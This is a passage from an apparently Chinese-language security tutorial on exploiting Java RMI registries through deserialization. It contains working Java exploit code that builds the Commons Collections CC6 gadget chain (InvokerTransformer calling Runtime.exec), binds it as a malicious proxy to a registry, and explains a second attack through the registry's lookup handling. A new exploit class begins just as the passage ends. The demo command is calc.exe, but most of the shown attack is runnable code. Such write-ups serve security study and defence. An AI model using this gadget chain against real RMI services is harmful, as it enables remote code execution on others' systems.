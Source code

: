 ```java
    public static void main(String[] args) throws Exception {
        // 创建Transform数组，构造CC6链条
        Transformer[] transforms = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime",null}),
            new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transforms);
        LazyMap lazyMap = (LazyMap)LazyMap.decorate(new HashMap(),new ConstantTransformer(null));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"lingx5");
        HashMap<Object, Object> HashMap = new HashMap<>();
        HashMap.put(tiedMapEntry,"lingx5");
        Field factory = LazyMap.class.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap,chainedTransformer);
        lazyMap.remove("lingx5");
        // 反射创建代理
        Constructor<?> constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(java.lang.annotation.Retention.class, HashMap);
        Remote remote = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, invocationHandler));
        Registry registry = LocateRegistry.createRegistry(1099);
        Registry registry_remote = LocateRegistry.getRegistry("127.0.0.1", 1099);
        registry_remote.bind("exp",remote);
    }
}
```

![image-20250307090808244](https://gitee.com/ling-x5/img/raw/master/image-20250307090808244.png)

当然我们同样也可发送其他的请求来攻击注册中心

在 sun.rmi.registry.RegistryImpl_Skele 的请求处理中 case2 就代表了 lookup 方法，也是直接进行了 var98 = (String)var104.readObject(); 反序列化操作

![image-20250307103319437](https://gitee.com/ling-x5/img/raw/master/image-20250307103319437.png)

但是，lookup 方法只有一个字符串的参数，我们要怎么把恶意的类给传输过去呢? 其实这个问题我们可以通过反射的方式，把恶意的类的序列化数据先写进输入流，当 RegistryImpl_Skele 执行到 case 2 反序列化逻辑的时候触发

照着 sun.rmi.registry.RegistryImpl_Stub#lookup 请求的逻辑，我们编写利用

![image-20250307121518409](https://gitee.com/ling-x5/img/raw/master/image-20250307121518409.png)

```java
package com.lingx5.RMI;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
```